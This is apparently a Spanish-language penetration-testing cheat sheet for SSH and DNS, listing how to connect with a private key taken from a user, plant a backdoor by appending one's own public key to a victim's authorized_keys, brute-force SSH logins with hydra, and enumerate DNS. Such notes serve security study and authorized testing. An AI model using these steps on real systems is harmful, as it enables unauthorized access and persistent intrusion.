 #### Conexión Basica
```shell
ssh <USER>@<IP>
```

#### Keys
Dentro del directorio personal de cada usuario encontramos el directorio `~/.ssh/` si no está puede ser creado en SSH dentro podemos encontrar los siguientes contenidos:
```shell
id_rsa.pub      -> Esta sería la key publica
id_rsa          -> Y esta sería la privada

authorized_keys -> Este archivo contiene todas las keys publicas a las que se les 
                   permite el acceso remoto
```

#### Conexión id_rsa
Es importante saber que si poseemos de una key privada de algun usuario podríamos emplearla para conectarnos sin contraseña de la siguiente forma:

```shell
ssh -i id_rsa <USER>@<IP>
```

- (La id_rsa ha de tener privilegios 600 -> `chmod 600 id_rsa`)

#### Backdoor
Con `ssh-keygen` podemos generar una clave privada y publica de nuestro usuario
```shell
[+] Nuestra maquina:
	ssh-keygen
	cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip

[+] Maquina victima:
	echo "<contenido_id_rsa.pub>" >> ~/.ssh/authorized_keys
```

Y ya podriamos conectarnos con nuestra id_rsa privada generada de el comando ssh-keygen

#### Fuerza Bruta

```shell
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

---

### DNS -> 53
Protocolo empleado en la resolución de direcciones a IPs

```shell
dnsenum <DOMAIN>
```

```shell
dnsrecon -d <DOMAIN>
```
